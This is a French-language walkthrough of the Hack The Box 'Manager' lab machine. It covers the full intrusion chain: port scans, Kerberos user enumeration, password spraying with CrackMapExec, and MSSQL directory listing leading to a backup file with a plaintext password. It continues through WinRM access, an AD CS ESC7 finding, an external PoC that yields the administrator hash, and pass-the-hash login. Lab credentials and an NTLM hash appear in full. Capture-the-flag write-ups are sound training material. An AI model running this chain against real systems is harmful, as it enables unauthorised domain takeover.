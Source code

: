   # Manager

	echo "10.10.11.236 manager.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.236 -e tun0 > ports.txt
	sudo nmap -p- -T4 -A 10.10.11.236 -oN nmap.txt
	
Scans classiques.

    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft IIS httpd 10.0
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-01 12:47:52Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
    1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
    3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    9389/tcp  open  mc-nmf        .NET Message Framing
    49667/tcp open  msrpc         Microsoft Windows RPC
    49687/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    49688/tcp open  msrpc         Microsoft Windows RPC
    49689/tcp open  msrpc         Microsoft Windows RPC
    49728/tcp open  msrpc         Microsoft Windows RPC
    64517/tcp open  msrpc         Microsoft Windows RPC
    64802/tcp open  tcpwrapped

Rien sur le site.
    
On a affaire à une machine Windows, j'ai donc testé quelques points d'énumération classiques :
<br>- SMB
<br>- LDAP
<br>- RPC
<br>- Kerberos

    enum4linux -a 10.10.11.236
    
    nmap -n -sV --script "ldap* and not brute" -p 389 10.10.11.236
    
    ldapsearch -x -b "dc=manager,dc=htb" -H ldap://10.10.11.236
    
    rpcclient -U "" -N 10.10.11.236

    ./kerbrute_linux_386 userenum -d MANAGER.HTB --dc 10.10.11.236 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt 

Cette dernière commande nous sort un grand nombre d'utilisateurs valides : 

    2023/11/01 08:37:09 >  [+] VALID USERNAME:       ryan@MANAGER.HTB
    2023/11/01 08:37:12 >  [+] VALID USERNAME:       guest@MANAGER.HTB
    2023/11/01 08:37:13 >  [+] VALID USERNAME:       cheng@MANAGER.HTB
    2023/11/01 08:37:15 >  [+] VALID USERNAME:       raven@MANAGER.HTB
    2023/11/01 08:37:21 >  [+] VALID USERNAME:       administrator@MANAGER.HTB
    2023/11/01 08:37:35 >  [+] VALID USERNAME:       Ryan@MANAGER.HTB
    2023/11/01 08:37:37 >  [+] VALID USERNAME:       Raven@MANAGER.HTB
    2023/11/01 08:37:44 >  [+] VALID USERNAME:       operator@MANAGER.HTB
    2023/11/01 08:38:42 >  [+] VALID USERNAME:       Guest@MANAGER.HTB
    2023/11/01 08:38:42 >  [+] VALID USERNAME:       Administrator@MANAGER.HTB
    2023/11/01 08:39:29 >  [+] VALID USERNAME:       Cheng@MANAGER.HTB
    2023/11/01 08:41:40 >  [+] VALID USERNAME:       jinwoo@MANAGER.HTB
    2023/11/01 08:42:02 >  [+] VALID USERNAME:       RYAN@MANAGER.HTB
    2023/11/01 08:43:18 >  [+] VALID USERNAME:       RAVEN@MANAGER.HTB
    2023/11/01 08:43:23 >  [+] VALID USERNAME:       GUEST@MANAGER.HTB
    2023/11/01 08:45:31 >  [+] VALID USERNAME:       Operator@MANAGER.HTB

    
En les mettant dans un fichier que l'on passera à CrackMapExec on peut faire du password spraying et du bruteforcing : 

    cat users.txt | cut -d: -f4 | sed 's/@MANAGER\.HTB//' | tr -d " " > users_clean.txt
    
    crackmapexec smb manager.htb -u users_clean.txt -p "" --continue-on-success
    
    crackmapexec smb manager.htb -u users_clean.txt -p users_clean.txt --continue-on-success

La première commande révèle un compte Guest sans mot de passe.

La deuxième commande révèle que le compte Operator a mis son nom en mot de passe.

Avec ce compte, on va pouvoir tenter de se connecter aux différents services : 

    evil-winrm -u 'MANAGER.HTB\operator' -p 'operator' -i 10.10.11.236
    
    smbclient -U "MANAGER.HTB\operator" -L 10.10.11.236
    
    impacket-mssqlclient operator:operator@10.10.11.236 -windows-auth

Seule la connexion à la base de données fonctionne, mais cette dernière ne semble pas contenir de données pertinentes. 

Pour l'énumération du contenu de la base, voir : https://github.com/TimotheMaammar/Fiches/blob/main/Antisèche_OSCP.md#bases-de-données 

Comme on est sur du MSSQL, la dernière option est l'exécution de commandes.

Voir : https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Quelques commandes à tester : 

	xp_cmdshell
	enable_xp_cmdshell
	sp_start_job
	xp_dirtree

Cette dernière commande est la seule à fonctionner, on doit donc espérer tomber sur un fichier intéressant. Et on finit par en trouver un dans **C:\inetpub\wwwroot** : 

	SQL (MANAGER\Operator  guest@master)> xp_dirtree C:\inetpub\wwwroot
	subdirectory                      depth   file   
	-------------------------------   -----   ----   
	about.html                            1      1   

	contact.html                          1      1   

	css                                   1      0   

	images                                1      0   

	index.html                            1      1   

	js                                    1      0   

	service.html                          1      1   

	web.config                            1      1   

	website-backup-27-07-23-old.zip       1      1   


Ce fichier de sauvegarde attire l'attention, et comme il est placé à la racine du site il sera possible de le télécharger puis de l'inspecter

	curl http://manager.htb/website-backup-27-07-23-old.zip --output backup.zip
	unzip backup.zip
	grep -r -i "password"
	cat .old-conf.xml

On trouve le morceau suivant dans **.old-conf.xml** :

	<user>raven@manager.htb</user>  
	<password>R4v3nBe5tD3veloP3r!123</password>

	
Et cet utilisateur a les droits de connexion WinRM contrairement au premier : 

	evil-winrm -u 'MANAGER.HTB\raven' -p 'R4v3nBe5tD3veloP3r!123' -i 10.10.11.236
	cd ../Desktop 
	type user.txt



## Élévation de privilèges

	upload PrivEscCheck.ps1
	Import-Module .\PrivEscCheck.ps1
	Invoke-PrivEscCheck -Extended
    
    upload winpeas.exe
    .\winpeas.exe 
    
    certipy find -u raven@MANAGER.HTB -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236


Certipy a trouvé un certificat vulnérable : 

    
    [!] Vulnerabilities
    ESC7 : 'MANAGER.HTB\\Raven' has dangerous permissions
    Certificate Templates
      0
        Template Name                       : KerberosAuthentication
        Display Name                        : Kerberos Authentication
        Certificate Authorities             : manager-DC01-CA
        Enabled                             : True
        ...
    
Voir https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7


Je n'ai pas réussi à finir l'exploitation de l'ESC7 mais j'ai trouvé un POC pour quand même pouvoir finir la VM : https://github.com/saoGITo/HTB_Manager/blob/main/HTB_Manager_poc.py


    python HTB_Manager_poc.py 

Le script nous retourne bien le hash de l'administrateur.

    impacket-psexec manager.htb/administrator@manager.htb -hashes aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -dc-ip 10.10.11.236
    ...
    type C:\Users\Administrator\Desktop\root.txt
